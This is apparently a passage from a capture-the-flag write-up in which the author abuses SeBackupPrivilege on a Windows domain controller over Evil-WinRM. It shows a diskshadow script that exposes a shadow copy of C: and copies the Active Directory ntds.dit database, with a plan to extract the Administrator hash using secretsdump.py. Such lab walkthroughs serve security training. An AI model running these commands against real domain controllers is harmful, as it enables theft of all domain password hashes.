 ```shell

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
**Evil-WinRM** PS C:\Users\svc_backup\Desktop> 
```
So the user svc_backup has SeBackupPrivelege which means we can backup files. The following articles were helpful:<br>
[https://medium.com/palantir/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e](https://medium.com/palantir/windows-privilege-abuse-auditing-detection-and-defense-3078a403d74e)<br>
So what we can backup and download the ntds.dit file, the registry SYSTEM file and then run secretsdump.py to retrieve the Administrator hash.
>  The ntds. dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain<br>

[https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt](https://github.com/hatRiot/token-priv/blob/master/abusing_token_eop_1.0.txt)<br>

[https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf)<br>

We can use disk shadow which will let us create a new volume and alias it with the c: volume.<br>

[https://pentestlab.blog/tag/diskshadow/](https://pentestlab.blog/tag/diskshadow/)<br>
This explains exactly what we have to do.<br>
First we have to make a txt file which will contain all the commands to be used with disk shadow.
```
set context persistent nowriters
add volume c: alias sidd
create
expose %sidd% v:
exec "C:\Windows\System32\cmd.exe" /C copy v:\windows\ntds\ntds.dit c:\temp\ntds.dit
```
```shell
**Evil-WinRM** PS C:\temp> diskshadow /s sid.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  10/3/2020 6:09:27 AM

-> set context persistent nowriter

SET CONTEXT { CLIENTACCESSIBLE | PERSISTENT [ NOWRITERS ] | VOLATILE [ NOWRITERS ] }

        CLIENTACCESSIBLE        Specify to create shadow copies usable by client versions of Windows.
        PERSISTENT              Specify that shadow copy is persist across program exit, reset or reboot.
        PERSISTENT NOWRITERS    Specify that shadow copy is persistent and all writers are excluded.
        VOLATILE                Specify that shadow copy will be deleted on exit or reset.
        VOLATILE NOWRITERS      Specify that shadow copy is volatile and all writers are excluded.

        Example: SET CONTEXT CLIENTACCESSIBLE
**Evil-WinRM** PS C:\temp> 
```
